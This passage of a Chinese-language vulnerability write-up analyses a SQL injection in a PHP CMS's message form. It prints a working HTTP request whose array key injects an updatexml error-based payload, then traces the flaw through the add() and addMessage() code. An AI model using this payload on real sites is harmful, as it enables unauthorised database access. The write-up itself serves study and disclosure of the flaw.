 ```
POST /index.php/Message/add HTTP/1.1
Host: 127.0.0.1

contacts[content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111&mobile=1&content=1&checkcode=3697
```

**漏洞分析**

xdebug跟踪一下在MessageController.php的方法add()

- 关键代码(这里删掉了一些无用的代码,便于直观)
```php
   public function add()
    {
            // 读取字段
            if (! $form = $this->model->getFormField(1)) {
                alert_back('留言表单不存在任何字段，请核对后重试！');
            }
            // 接收数据
            $mail_body = '';
            foreach ($form as $value) {
                $field_data = post($value->name);
                if (is_array($field_data)) { // 如果是多选等情况时转换
                    $field_data = implode(',', $field_data);
                }
                if ($value->required && ! $field_data) {
                    alert_back($value->description . '不能为空！');
                } else {
                    $data[$value->name] = post($value->name);
                    $mail_body .= $value->description . '：' . post($value->name) . '<br>';
                }
            }
            
            ...
            
            if ($this->model->addMessage($data)) {
                session('lastsub', time()); // 记录最后提交时间
                $this->log('留言提交成功！');
            ...

```

先是读取字段即调用了模板方法getFormField,去读取留言表单的字段。接着是接收数据，放到post()过滤一遍，前面讲过了，post()函数有单双引号、updatexml以及html实体编码等过滤。然后其它字段也经历同样操作输出到数组$data里。

后面调用了模板方法addMessage($data)来处理数组。也是`SQL注入发生点`该函数如下：

```php
    public function addMessage($data)
    {
        return parent::table('ay_message')->autoTime()->insert($data);
    }
```
